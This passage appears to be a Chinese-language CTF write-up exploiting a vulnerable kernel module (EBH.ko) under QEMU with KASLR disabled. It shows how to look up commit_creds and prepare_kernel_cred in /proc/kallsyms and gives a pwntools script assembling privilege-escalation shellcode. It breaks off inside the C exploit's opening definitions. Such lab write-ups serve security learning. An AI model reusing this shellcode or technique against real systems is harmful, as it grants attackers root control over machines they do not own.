開頭的 function 是 `startup_64`，看起來像是啟動的時候才會用到，可以嘗試寫 shellcode 在這邊看看會不會出事。

下一個實作 exploit 的問題就是不知道 `ioremap` 的 virtual address map 到哪裡，但因為在 `run.sh` 中有設定 `nokaslr`，所以每一次啟動 QEMU 之後的 `ioremap` 拿到的 virtual address 都是同一個地方，這樣 exploit 的實作就沒有問題了。

首先我們要先產生 shellcode，這邊使用的提權手法是呼叫

```c
commit_creds(prepare_kernel_cred(NULL));
```

所以我們要先去尋找 `prepare_kernel_cred` 和 `commit_creds` 的 address

```shell
cat /proc/kallsyms | grep prepare_kernel_cred
cat /proc/kallsyms | grep commit_creds
```

執行後可以拿到這兩條

```
ffffffff810895e0 T prepare_kernel_cred
ffffffff810892c0 T commit_creds
```

接著就是寫 shellcode

```py
from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

sc = asm('''
    xor rdi, rdi
    mov rdx, 0xffffffff810895e0
    call rdx

    mov rdi, rax
    mov rdx, 0xffffffff810892c0
    call rdx

    mov rdx, 0xffffffffc000027e
    jmp rdx
''')

print(f'Length : {len(sc)}')
print('Shellcode : ' + '{' + ', '.join(hex(byte) for byte in sc) + '}')
```

shellcode 中最後 `jmp` 回去的位址就是在 `EBH.ko` 中 `write_note` 正常 return 到 `device_ioctl` 的位址（為了要保證 kernel 不爛掉所以要跳回去）。

生成 shellcode 之後 trace 一下 `EBH.ko` 執行到 `ioremap` 之後得到的 virtual address 在哪邊，接著就可以把 exploit 完成

```c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <string.h>


#define GET_PHYSICAL 0x4700
#define PEEK_PHYSICAL 0x5000
#define WRITE_TO_ADDRESS 0x5700
#define WRITE_NOTE 0x5701


struct PeekPhysicalData {
    void *phyaddr;
    unsigned long peeksize;
```